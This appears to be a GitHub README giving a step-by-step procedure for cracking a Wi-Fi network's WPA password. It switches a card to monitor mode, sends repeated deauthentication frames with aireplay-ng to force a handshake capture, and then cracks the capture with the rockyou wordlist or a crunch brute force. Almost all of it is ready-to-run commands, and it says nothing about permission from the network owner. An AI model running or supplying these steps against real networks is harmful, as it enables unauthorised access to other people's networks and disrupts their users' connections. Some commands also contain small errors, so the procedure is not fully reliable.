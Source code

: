 preview: https://markdownlivepreview.com/  
##  Prerequisite  
```bash
sudo apt update
```  
```bash
# install aircrack
sudo apt install aircrack-ng
```  
```bash
# verify aircrack installation
aircrack-ng --help
```  
```bash
# install crunch
sudo apt install crunch
```  
```bash
# verify crunch installation
crunch -h
```  
## A. Start general info  
`Default Folder`
```bash
# switch to super user
sudo su
```  
```bash
iwconfig
# see the network - it must be Mode:managed
```  
```bash
# this will show current running process
airmon-ng check
```  
```bash
# kill current process
airmon-ng check kill
# rechecking will show nothing this time
```  

## B. Change manager mode to monitor mode  
`same Default Folder`
```bash
airmon-ng start wlan0
# wlan0 can vary like wlan0mon etc
# this will change managed mode to monitor mode  
```  

## C. Gather basic info  
`same Default Folder`
```bash
airodump-ng wlan0
# stop the process (CTRL + C) after 10-15 secs
```  
create a text note of  
```txt
BSSID:
CH (channel):
ESSID:
```  

## D. Dump the capture file  
```
-|New_Folder
   |- Captured_Files
   |- rockyou (we will talk about this folder later)
```  
use this folder structure on desktop or anywhere  
```bash
# inside "Captured_Files" folder do `sudo su` & use
airodump-ng wlan0 -d <bssid>
# in some time you will see Handshake: bssid in top at the command  
# keep this process running
```  
`in same folder (Captured_Files) open another terminal`  
```bash
# de-auth
aireplay-ng --deauth 0 -a <bssid> wlan0
# this will start sending deauthentication codes  
# increasing number after --de-auth will lengthen the process & night shut the network for sometime  
# After some time usually 20secs close the execution (CTRL + C)  
```  
```bash
# this will capture the files  
airodump-ng -w file_name -c <ch> --bssid <bssid> wlan0
# close after 20secs
```  
```bash
# run the de-auth just to make sure things  
aireplay-ng --deauth 0 -a <bssid> wlan0
# close after 20secs

# re-run deauth
airodump-ng -w file_name -c <ch> --bssid <bssid> wlan0
# close after 20secs
```  
```bash
ls
# check the files in "Captured_Files" folder
# visible formats - csv, netxml, cap
```  

## E. Dictionary Attack (Method One)  
Download the rockyou file from internet, extract it & paste the `rockyou.txt` file in `rockyou` folder  
```
-|New_Folder
   |- Captured_Files
   |- rockyou (extract it & paste the `rockyou.txt` file here)
```  
`OR` we can use built in rockyou file from kali linux environment  
```bash
# optional if we skill download
gunzip -c /usr/share/wordlists/rockyou.txt.gz > ~/Desktop/New_Folder/rockyou/rockyou.txt
# sometimes this will be problematic so i choose download & use it  
```  
```bash
# change the permission
chmod 777 ~/Desktop/New_Folder/rockyou/rockyou.txt
# aircrack-ng file_name.cap -w <rockyou.txt path>
aircrack-ng file_name.cap -w /Desktop/New_Folder/rockyou/rockyou.txt
```  
wait for sometimes it will execute the process  

## F. Brute Force Attack (Method Two)  
this take too much time to penetrate  
```bash
crunch 8 12 pbcedfeg | aircrack-ng file_name.cap -b <bssid> -w-
```  

## Post process  
```bash
# After all things done, do this before shutting OS
airmon-ng Stop wlan0
```  
